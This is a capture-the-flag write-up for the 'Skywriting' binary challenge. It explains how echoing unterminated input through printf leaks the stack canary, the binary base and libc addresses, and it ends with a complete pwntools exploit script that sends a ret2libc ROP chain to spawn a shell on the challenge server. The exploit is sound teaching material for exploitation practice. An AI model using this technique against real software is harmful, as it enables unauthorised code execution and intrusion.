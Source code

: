# Skywriting

There's a lot of unnecessary bloat that I'll mostly ignore.

Cracking open the binary in ghidra, we see that the first input we get is actually a scanf, scanning a decimal integer into a variable. It then checks this integer against 1. If the integer isn't 1, it pops a shell - zsh. Nothing happens remotely, likely they do not have zsh. So that's not very useful.

What happens if the integer is 1? It continues with the rest of the execution of the program. The program opens up a never-ending prompt in which it asks for an input. If the input is the same as notflag{a_cloud_is_just_someone_elses_computer}\n when strcmp-ed,the program tells us we did it and rets. This will be useful later on to deliver our final exploit.

In the prompt, 0x200 bytes are read into rbp-0x90, creating a clear buffer overflow vulnerability.

Sadly, however, every protection is on. Canary, RELRO, PIE and most likely ASLR. We're going to need to leak somehow..  but how?

The read function does not null terminate. That means our input will not be null terminated as a string unless we enter a null byte. Not only this, but the program calls printf("%s??", input), printing the input back to us. Printf will only know the end of a string once it hits a null byte, meaning we can leak values off of the stack!

For example, say this was the stack

00 00 00 00 00 00 00 00 00 \<canary>

we could write like so

41 41 41 41 41 41 41 41 0a \<canary>

now, when it prints, it'll keep printing, leaking the canary and ~~saved RBP~~ .fini address. 

NOTE: Canaries start with null bytes! We will have to overflow one byte of the canary so that we can read the rest. It doesn't matter that we overflow the canary until we make the program ret, but by then we will know what the full canary is and be able to replace it.

We can use this again to leak the saved ret address, which will be `__libc_start_main_ret.`

Once all these values are leaked, we send the finished exploit. notflag{a_cloud_is_just_someone_elses_computer}\n\x00 + padding + canary + more padding + poprdi + /bin/sh address + retgadget + systemaddress

NOTE: We can leak the binary base through the .fini address. We don't strictly *need* it here, as libc has ROP gadgets, but it's useful.
```
from pwn import *
mode = sys.argv[1]
NUM_TO_CANARY = 0x90 - 0x8
NUM_TO_RET = NUM_TO_CANARY+16
retgadget  = 0x000000000000078e # ret
poprdi = 0x0000000000000bd3 # pop rdi ; ret
e = ELF("./sky")
def getproc():
    if mode == 'local':
        return e.process()
    else:
        return remote('2020.redpwnc.tf', 31034)
def setup():
    p = getproc()
    p.recvline()
    p.sendline("1")
    p.recvuntil("shot: ")
    return p 
def getoutput(data):
    global p
    p.sendline(data)
    p.recvuntil(data + b'\n')
    output = p.recvuntil("??")[:-2]
    p.recvuntil("shot: ")
    return output
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else "/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
p = setup()
#Leak canary and binary base
libret = 0x21b97 if mode == 'remote' else 0x26e0b
leak = getoutput(b"A" * (NUM_TO_CANARY))
canary = u64(b'\x00' + leak[:7])
log.info(f"Canary: {hex(canary)}")
pause()
fini = u64(leak[7:] + b'\x00\x00')
e.address = fini - 0xb70
log.info(f"Binary base: {hex(e.address)}")
#Leak libc base by leaking the libc start main ret
leak2 = getoutput(b"A" * (NUM_TO_RET-1))
libret_leak = u64(leak2 + b'\x00\x00')
log.info(f"Libc start main ret: {hex(libret_leak)}")
libcbase = libret_leak - libret
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
retgadget += e.address
poprdi += e.address
# Everything has been leaked. Develop the final payload.
final =  flat(canary,b'C'*8,poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'],word_size=64)
padding = b"notflag{a_cloud_is_just_someone_elses_computer}\n\x00"
padding += b'B' * (NUM_TO_CANARY - len(padding))
p.sendline(padding + final)
p.interactive()
```
